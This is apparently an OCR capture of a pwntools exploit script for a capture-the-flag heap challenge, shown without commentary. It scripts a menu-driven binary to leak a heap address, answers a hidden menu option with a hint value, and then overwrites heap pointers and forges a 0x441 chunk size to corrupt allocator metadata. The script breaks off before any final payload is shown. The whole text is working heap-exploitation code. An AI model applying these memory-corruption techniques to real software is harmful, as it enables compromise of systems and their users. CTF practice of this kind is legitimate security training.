 ```python
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()
def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def cho(num):
	sla('Choice:',str(num))

def add(idx,sz):
	cho(1)
	sla('Idx:',str(idx))
	sla('Sz:',str(sz))

def edit(idx,val):
	cho(4)
	sla('Idx:',str(idx))
	ru('Content:')
	sd(val)

def show(idx):
	cho(3)
	sla('Idx:',str(idx))


def copy(fr, to):
	cho(2)
	sla('From:',str(fr))
	sla('To:',str(to))

add(0,0x28)
add(1,0x28)
add(0,0x18)
add(1,0x18)

add(0,0x28)
show(0)
ru(" ")
heap=leak_address()+0x30
print(hex(heap))
copy(0,4)
copy(0,5)

hint=0x4BDD9E64
cho(57005)
sla('Hint: ',p32(hint)+p32(hint)+p32(hint)+p32(hint+1))
sla('Addr: ',str(heap+8))

add(2,0x18)
add(3,0x28)
add(2,0x28)
add(3,0x18)

add(0,0x18)

edit(4,p64(heap-0x70)+b'\n')
add(6,0x18)
add(7,0x28)
edit(7,p64(0)+p64(0x441))
```